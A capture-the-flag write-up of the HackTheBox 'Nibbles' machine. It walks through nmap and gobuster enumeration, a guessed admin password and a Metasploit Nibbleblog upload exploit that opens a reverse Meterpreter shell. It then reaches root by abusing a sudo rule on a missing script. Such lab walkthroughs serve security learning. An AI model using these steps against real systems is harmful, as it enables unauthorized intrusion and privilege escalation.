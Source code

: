 ```yaml
---
title: Nibbles writeup
date: 2022-06-24 23:00:00 +0200
categories: [Writeup, HackTheBox]
tags: ["Easy-box", "metasploit"]     # TAG names should always be lowercase
img_path: /assets/img/boxes/nibbles/
image: # Thumbnail 
  src: Nibbles.png
  width: 1000   # in pixels
  height: 400   # in pixels
--- 
```

## Summary
An easy but frustrating box, based on the guessing required to get a foothold on the machine. Nevertheless let us take a look. 

## Foothold
We start out with an nmap scan
```console
# Nmap 7.92 scan initiated Sun Feb  6 18:31:21 2022 as: nmap -sC -sV -o nmap/ini.txt 10.129.96.84
Nmap scan report for 10.129.96.84
Host is up (0.065s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb  6 18:31:31 2022 -- 1 IP address (1 host up) scanned in 9.68 seconds
```
Two ports are open, 22 and 80. Visiting the web application hosted on 80 we get greeted with a simple hello world. However, looking at the HTML source code we get told about a directory name `/nibbleblog/`{: .filepath}. If we access the directory we find a blog, powered by `Nibbleblog`.

![Nibbleblog](nibbleblog.png)

If we scan this directory with gobuster we find a lot of other directories as well. 

```console
┌──(bitis㉿workstation)-[~/htb/Machines/nibbles]
└─$ gobuster dir -u 10.129.96.84/nibbleblog/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-small-words.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.96.84/nibbleblog/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-small-words.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/06/25 02:13:32 Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 303]
/.php                 (Status: 403) [Size: 302]
/admin                (Status: 301) [Size: 323] [--> http://10.129.96.84/nibbleblog/admin/]
/plugins              (Status: 301) [Size: 325] [--> http://10.129.96.84/nibbleblog/plugins/]
/themes               (Status: 301) [Size: 324] [--> http://10.129.96.84/nibbleblog/themes/] 
/.htm                 (Status: 403) [Size: 302]                                              
/content              (Status: 301) [Size: 325] [--> http://10.129.96.84/nibbleblog/content/]
/languages            (Status: 301) [Size: 327] [--> http://10.129.96.84/nibbleblog/languages/]
/.                    (Status: 200) [Size: 2987]                                               
/.htaccess            (Status: 403) [Size: 307]                                                
/.php3                (Status: 403) [Size: 303]                                                
/.phtml               (Status: 403) [Size: 304]                                                
/README               (Status: 200) [Size: 4628]                                               
/.htc                 (Status: 403) [Size: 302]         
...
```
If we go to the content directory, we discover that it has directory listing enabled. We can then find a file named `users.xml`{: .filepath}, containing a username:

![users.xml](xml.png)
_Content of users.xml_

If we search for nibbleblog exploits, we find the following [two](https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html) [links](https://www.exploit-db.com/exploits/38489). One is a exploitdb post detailing a metasploit module that allows us to gain a reverse shell on a system using nibbleblog version 4.0.3, while the other is a poc we would have to run ourselves. When trying the metasploit module we have to guess the credentials of the admin user. The credentials `admin:nibbles` seem to work, giving us a reverse shell:

```console
msf6 exploit(multi/http/nibbleblog_file_upload) > set PASSWORD nibbles
PASSWORD => nibbles
msf6 exploit(multi/http/nibbleblog_file_upload) > set USERNAME admin
USERNAME => admin
msf6 exploit(multi/http/nibbleblog_file_upload) > set TARGETURI /nibbleblog
TARGETURI => /nibbleblog
msf6 exploit(multi/http/nibbleblog_file_upload) > set RHOSTS 10.129.96.84
RHOSTS => 10.129.96.84
msf6 exploit(multi/http/nibbleblog_file_upload) > run

[*] Started reverse TCP handler on 10.10.17.182:4444 
[*] Sending stage (39927 bytes) to 10.129.96.84
[+] Deleted image.php
[*] Meterpreter session 1 opened (10.10.17.182:4444 -> 10.129.96.84:47854) at 2022-06-25 02:23:12 +0200
meterpreter > shell
Process 1669 created.
Channel 2 created.
id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

## Privilege escalation
We first start out by running `sudo -l`, giving is the following output:

```console
sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```
If we go to nibblers home directory we see that there is no file named `home/nibbler/personal/stuff/monitor.sh`, indeed there is not even a directory named `personal`. 
```console
pwd
/home/nibbler
ls -al
total 20
drwxr-xr-x 3 nibbler nibbler 4096 Dec 29  2017 .
drwxr-xr-x 3 root    root    4096 Dec 10  2017 ..
-rw------- 1 nibbler nibbler    0 Dec 29  2017 .bash_history
drwxrwxr-x 2 nibbler nibbler 4096 Dec 10  2017 .nano
-r-------- 1 nibbler nibbler 1855 Dec 10  2017 personal.zip
-r-------- 1 nibbler nibbler   33 Jun 24 17:59 user.txt
```
What we can do is we can simply create a file with the correct path that does whatever we want, and when called that file will give us a root shell. 

```console
echo "/bin/bash" > monitor.sh
chmod +x monitor.sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
<er/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh             
root@Nibbles:/home/nibbler/personal/stuff# 
```
Rooted!